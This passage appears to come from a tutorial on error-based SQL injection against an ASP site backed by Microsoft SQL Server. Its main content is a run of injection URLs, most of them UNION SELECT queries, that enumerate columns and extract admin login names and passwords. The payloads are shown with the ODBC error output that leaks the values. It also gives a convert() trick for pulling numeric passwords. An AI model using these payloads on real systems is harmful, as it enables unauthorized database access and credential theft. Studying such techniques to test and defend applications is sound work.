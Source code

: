 When we continue further, we obtained the rest of the column name, i.e. "password", "details". We know this when we get the following error message:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='admin_login' WHERE COLUMN_NAME NOT IN ('login_id','login_name','password',details')--
Output:
Microsoft OLE DB Provider for ODBC Drivers error '80040e14' 
[Microsoft][ODBC SQL Server Driver][SQL Server]ORDER BY items must appear in the select list if the statement contains a UNION operator. 
/index.asp, line 5

## How to retrieve any data we want ##

Now that we have identified some important tables, and their column, we can use the same technique to gather any information we want from the database.
Now, let's get the first login_name from the "admin_login" table:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 login_name FROM admin_login--
Output:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'neo' to a column of data type int. 
/index.asp, line 5
We now know there is an admin user with the login name of "neo". Finally, to get the password of "neo" from the database:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 password FROM admin_login where login_name='neo'--
Output:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value 'm4trix' to a column of data type int. 
/index.asp, line 5
We can now login as "neo" with his password "m4trix".

## How to get numeric string value ##

There is limitation with the technique describe above. We cannot get any error message if we are trying to convert text that consists of valid number (character between 0-9 only). Let say we are trying to get password of "trinity" which is "31173":
<http://duck/index.asp?id=10> UNION SELECT TOP 1 password FROM admin_login where login_name='trinity'--
We will probably get a "Page Not Found" error. The reason being, the password "31173" will be converted into a number, before UNION with an integer (10 in this case). Since it is a valid UNION statement, SQL server will not throw ODBC error message, and thus, we will not be able to retrieve any numeric entry.
To solve this problem, we can append the numeric string with some alphabets to make sure the conversion fail. Let us try this query instead:
<http://duck/index.asp?id=10> UNION SELECT TOP 1 convert(int, password%2b'%20morpheus') FROM admin_login where login_name='trinity'--
We simply use a plus sign (+) to append the password with any text we want. (ASSCII code for '+' = 0x2b). We will append '(space)morpheus' into the actual password. Therefore, even if we have a numeric string '31173', it will become '31173 morpheus'. By manually calling the convert() function, trying to convert '31173 morpheus' into an integer, SQL Server will throw out ODBC error message:
Microsoft OLE DB Provider for ODBC Drivers error '80040e07' 
[Microsoft][ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value '31173 morpheus' to a column of data type int. 
/index.asp, line 5
Now, you can even login as 'trinity' with the password '31173'.

